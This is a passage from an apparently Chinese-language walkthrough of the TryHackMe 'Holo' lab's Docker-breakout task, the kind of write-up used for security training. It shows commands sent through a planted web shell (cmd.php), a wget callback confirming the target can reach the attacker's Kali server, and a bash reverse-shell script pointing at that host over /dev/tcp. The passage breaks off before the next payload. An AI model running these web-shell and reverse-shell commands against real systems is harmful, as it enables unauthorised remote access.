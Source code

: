 ```
成功写入，执行whoami命令
```
www-data@9f54bfa15108:/var/www/admin$ curl 192.168.100.1:8080/cmd.php?cmd=whoami
<w/admin$ curl 192.168.100.1:8080/cmd.php?cmd=whoami
www-data
```

**Task 18  Docker Breakout Making Thin Lizzy Proud**

> What user is the database running as?

> www-data

现在我们要验证mysql上的靶机是否可以与我们的kali通信，先在本地kali起一个python web server

使用下面命令测试

```
www-data@9f54bfa15108:/var/www/admin$ curl 192.168.100.1:8080/cmd.php?cmd=wget http://10.50.111.108/any
<00.1:8080/cmd.php?cmd=wget http://10.50.111.108/any
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
        "http://www.w3.org/TR/html4/strict.dtd">
<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
        <title>Error response</title>
    </head>
    <body>
        <h1>Error response</h1>
        <p>Error code: 404</p>
        <p>Message: File not found.</p>
        <p>Error code explanation: HTTPStatus.NOT_FOUND - Nothing matches the given URI.</p>
    </body>
</html>

```

收到web访问请求，证明可以通信，也就是说我们可以获得一个rev shell
```
┌──(root💀kali)-[~/tryhackme/holo]
└─# python3 -m http.server 80                                                                                   1 ⨯
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.200.114.33 - - [26/Jul/2022 03:38:05] code 404, message File not found
10.200.114.33 - - [26/Jul/2022 03:38:05] "GET /any HTTP/1.1" 404 -

```

## foothold
准备一个rev babsh文件
```
┌──(root💀kali)-[~/tryhackme/holo]
└─# cat rev.sh
#!/bin/bash
bash -i >& /dev/tcp/10.50.111.108/4242 0>&1
```

本地起一个web server

思路是rce让mysql主机访问上面的脚本并执行，返回一个rev shell

rev shell放在一个bash脚本里的好处是可以规避一些引号和特殊字符的问题

使用下面payload
```